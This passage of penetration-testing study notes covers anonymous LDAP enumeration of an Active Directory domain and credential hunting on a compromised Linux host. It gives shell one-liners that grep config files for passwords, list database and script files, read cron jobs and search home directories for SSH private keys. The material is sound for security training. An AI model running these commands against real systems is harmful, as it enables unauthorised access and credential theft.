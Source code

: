 LDAP anonymous binds allow unauthenticated attackers to retrieve information from the domain, such as a complete listing of users, groups, computers, user account attributes, and the domain password policy.

```shell-session
ldapsearch -h $ip -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
ldapsearch -H ldap://$ip -x -b "DC=HTB,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength 


ldapsearch -H ldap://$ip -x -s base -b '' "(objectClass=*)" "*" +  
```

Other tools related to ldap: `windapsearch.py`, `ldapsearch`, `ad-ldapdomaindump.py`.

## 4. Credentials

Enumerating all these categories will allow us to increase the probability of successfully finding out with some ease credentials of existing users on the system.

| **`Files`**  | **`History`**        | **`Memory`**         | **`Key-Rings`**            |
| ------------ | -------------------- | -------------------- | -------------------------- |
| Configs      | Logs                 | Cache                | Browser stored credentials |
| Databases    | Command-line History | In-memory Processing |                            |
| Notes        |                      |                      |                            |
| Scripts      |                      |                      |                            |
| Source codes |                      |                      |                            |
| Cronjobs     |                      |                      |                            |
| SSH Keys     |                      |                      |                            |

### Enumerating interesting files in a linux AD machine

[More about Linux and enumeration](linux.md).

Assuming that we have a foothold on the active directory and it's a linux machine:

```shell-session
# Enumerate configuration files:
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done

# Enumerate **credentials in Configuration Files:
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done

# Enumerate database files:
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done

# Enumerate txt files within the system:
find /home/* -type f -name "*.txt" -o ! -name "*.*"

# Enumerate scripts:
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done

# Enumerate cronjobs
cat /etc/crontab
ls -la /etc/cron.*/

# Enumerate SSH private keys
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"

```